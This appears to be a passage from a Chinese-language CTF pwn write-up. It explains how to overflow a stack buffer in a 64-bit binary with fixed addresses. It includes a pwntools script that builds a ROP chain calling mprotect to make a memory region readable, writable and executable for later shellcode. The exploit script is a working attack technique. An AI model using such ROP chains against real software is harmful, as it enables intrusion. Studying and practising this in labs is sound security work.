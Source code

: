 这道题中的所有函数地址都是固定的, 所以可以溢出覆盖来构造mprotect的rop链, 首先需要找一块可写内存来可供写入shellcode

![image-20220317173828774](自救指南.assets/image-20220317173828774.png)

这里可以直接选这个区, 地址是固定的, 比较好利用, 由于是64位程序, 所以还需要搜寻一波`pop|ret`

![image-20220317174155661](自救指南.assets/image-20220317174155661.png)

mprotect需要三个参数, 所以这三个刚刚好

```python
from pwn import*

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, hea起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)

o.interactive()
```
